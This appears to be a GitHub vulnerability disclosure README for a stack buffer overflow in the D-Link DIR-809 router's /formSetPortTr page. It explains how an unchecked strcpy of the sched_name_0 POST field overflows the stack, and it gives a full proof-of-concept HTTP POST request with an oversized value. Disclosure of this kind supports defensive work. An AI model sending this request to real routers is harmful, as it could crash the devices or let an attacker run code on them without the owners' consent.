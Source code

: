 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formSetPortTr` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_80046eb4` ( page `/formSetPortTr` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"sched_name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_1c4`. 

![2021-05-10_10h43_49](README/2021-05-10_10h43_49.png)



## PoC

``` 
POST /formSetPortTr.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3132
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Special_Applications.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=YF608CCB25
Connection: close

settingsChanged=1&curTime=1620559041239&HNAP_AUTH=6946CD2354C87A2E9E189EFFB61EECD9+1620559041&submit-url=%2FAdvanced%2FSpecial_Applications.asp&used_0=0&enabled_0=0&entry_name_0=1321313123123&trigPortRng_0=9090&trigPortPtc_0=6&sched_name_0=aaaaaaaaa*0x200&inputPortRng_0=9091&inputPortPtc_0=6&used_1=0&enabled_1=0&entry_name_1=&trigPortRng_1=&trigPortPtc_1=6&sched_name_1=Always&inputPortRng_1=&inputPortPtc_1=6&used_2=0&enabled_2=0&entry_name_2=&trigPortRng_2=&trigPortPtc_2=6&sched_name_2=Always&inputPortRng_2=&inputPortPtc_2=6&used_3=0&enabled_3=0&entry_name_3=&trigPortRng_3=&trigPortPtc_3=6&sched_name_3=Always&inputPortRng_3=&inputPortPtc_3=6&used_4=0&enabled_4=0&entry_name_4=&trigPortRng_4=&trigPortPtc_4=6&sched_name_4=Always&inputPortRng_4=&inputPortPtc_4=6&used_5=0&enabled_5=0&entry_name_5=&trigPortRng_5=&trigPortPtc_5=6&sched_name_5=Always&inputPortRng_5=&inputPortPtc_5=6&used_6=0&enabled_6=0&entry_name_6=&trigPortRng_6=&trigPortPtc_6=6&sched_name_6=Always&inputPortRng_6=&inputPortPtc_6=6&used_7=0&enabled_7=0&entry_name_7=&trigPortRng_7=&trigPortPtc_7=6&sched_name_7=Always&inputPortRng_7=&inputPortPtc_7=6&used_8=0&enabled_8=0&entry_name_8=&trigPortRng_8=&trigPortPtc_8=6&sched_name_8=Always&inputPortRng_8=&inputPortPtc_8=6&used_9=0&enabled_9=0&entry_name_9=&trigPortRng_9=&trigPortPtc_9=6&sched_name_9=Always&inputPortRng_9=&inputPortPtc_9=6&used_10=0&enabled_10=0&entry_name_10=&trigPortRng_10=&trigPortPtc_10=6&sched_name_10=Always&inputPortRng_10=&inputPortPtc_10=6&used_11=0&enabled_11=0&entry_name_11=&trigPortRng_11=&trigPortPtc_11=6&sched_name_11=Always&inputPortRng_11=&inputPortPtc_11=6&used_12=0&enabled_12=0&entry_name_12=&trigPortRng_12=&trigPortPtc_12=6&sched_name_12=Always&inputPortRng_12=&inputPortPtc_12=6&used_13=0&enabled_13=0&entry_name_13=&trigPortRng_13=&trigPortPtc_13=6&sched_name_13=Always&inputPortRng_13=&inputPortPtc_13=6&used_14=0&enabled_14=0&entry_name_14=&trigPortRng_14=&trigPortPtc_14=6&sched_name_14=Always&inputPortRng_14=&inputPortPtc_14=6&used_15=0&enabled_15=0&entry_name_15=&trigPortRng_15=&trigPortPtc_15=6&sched_name_15=Always&inputPortRng_15=&inputPortPtc_15=6&used_16=0&enabled_16=0&entry_name_16=&trigPortRng_16=&trigPortPtc_16=6&sched_name_16=Always&inputPortRng_16=&inputPortPtc_16=6&used_17=0&enabled_17=0&entry_name_17=&trigPortRng_17=&trigPortPtc_17=6&sched_name_17=Always&inputPortRng_17=&inputPortPtc_17=6&used_18=0&enabled_18=0&entry_name_18=&trigPortRng_18=&trigPortPtc_18=6&sched_name_18=Always&inputPortRng_18=&inputPortPtc_18=6&used_19=0&enabled_19=0&entry_name_19=&trigPortRng_19=&trigPortPtc_19=6&sched_name_19=Always&inputPortRng_19=&inputPortPtc_19=6&used_20=0&enabled_20=0&entry_name_20=&trigPortRng_20=&trigPortPtc_20=6&sched_name_20=Always&inputPortRng_20=&inputPortPtc_20=6&used_21=0&enabled_21=0&entry_name_21=&trigPortRng_21=&trigPortPtc_21=6&sched_name_21=Always&inputPortRng_21=&inputPortPtc_21=6&used_22=0&enabled_22=0&entry_name_22=&trigPortRng_22=&trigPortPtc_22=6&sched_name_22=Always&inputPortRng_22=&inputPortPtc_22=6&used_23=0&enabled_23=0&entry_name_23=&trigPortRng_23=&trigPortPtc_23=6&sched_name_23=Always&inputPortRng_23=&inputPortPtc_23=6
```





## Acknowledgment

Credit to  [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

